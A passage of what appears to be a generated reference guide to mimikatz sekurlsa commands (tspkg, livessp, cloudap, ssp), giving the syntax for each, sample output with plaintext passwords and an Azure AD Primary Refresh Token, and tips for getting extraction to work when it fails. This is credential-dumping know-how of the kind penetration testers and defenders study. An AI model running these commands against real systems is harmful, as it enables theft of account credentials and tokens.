 ### `sekurlsa::tspkg`
- **Purpose:** Extract Terminal Services single sign-on credentials from the TS global credential table.【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_tspkg.c†L33-L68】
- **Syntax:** `sekurlsa::tspkg`
- **Example usage/output:**
  ```mimikatz
  mimikatz # sekurlsa::tspkg
  Authentication Id : 0 ; 4011 (00000000:00000FAB)
  UserName : CONTOSO\rduser
  Password : TS-Delegation-Password
  ```
- **Potential errors & fixes:** No dedicated error messages exist; if nothing appears, verify the session actually authenticated via TSPKG (typical on pre-Windows 10 builds or RDS scenarios).

### `sekurlsa::livessp`
- **Availability:** Disabled on ARM64 builds because LiveSSP is absent.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L13-L31】
- **Purpose:** Enumerate cached LiveSSP credentials when supported.【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_livessp.c†L20-L51】
- **Syntax:** `sekurlsa::livessp`
- **Example usage/output:**
  ```mimikatz
  mimikatz # sekurlsa::livessp
  Authentication Id : 0 ; 98765 (00000000:000181CD)
  UserName : CONTOSO\service
  Password : (LiveSSP secret)
  ```
- **Potential errors & fixes:** If the command is unavailable, confirm you are running on x64 with LiveSSP present. Empty output may indicate no LiveSSP logons occurred; use `sekurlsa::logonPasswords` to verify sessions.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L13-L31】

### `sekurlsa::cloudap`
- **Purpose:** Display Azure AD PRT data, session keys, and key identifiers for the active user.【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_cloudap.c†L20-L119】
- **Syntax:** `sekurlsa::cloudap`
- **Example usage/output:**
  ```mimikatz
  mimikatz # sekurlsa::cloudap
  Authentication Id : 0 ; 2222 (00000000:000008AE)
  UserName : alice@contoso.com
  Primary Refresh Token : eyJ0eXAiOiJKV1Qi...
  Device Key : {GUID}
  ```
- **Potential errors & fixes:** If the command prints `KO`, the pattern search failed—confirm CloudAP is present on the target build and rerun after an interactive Azure AD login so cache structures exist. When nothing outputs, the account may not have a PRT cached yet.【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_cloudap.c†L24-L119】

### `sekurlsa::ssp`
- **Purpose:** List credentials held by third-party Security Support Providers integrated with MSV.【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_ssp.c†L33-L66】
- **Syntax:** `sekurlsa::ssp`
- **Example usage/output:**
  ```mimikatz
  mimikatz # sekurlsa::ssp
  Authentication Id : 0 ; 1999 (00000000:000007CF)
  Package : CustomSSP
  UserName : CONTOSO\svc_account
  Password : (decrypted secret)
  ```
- **Potential errors & fixes:** Empty sections usually mean no SSPs are registered. If `kull_m_memory_copy` fails mid-enumeration, retry quickly or switch to an offline dump to stabilize the structures.【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_ssp.c†L46-L64】

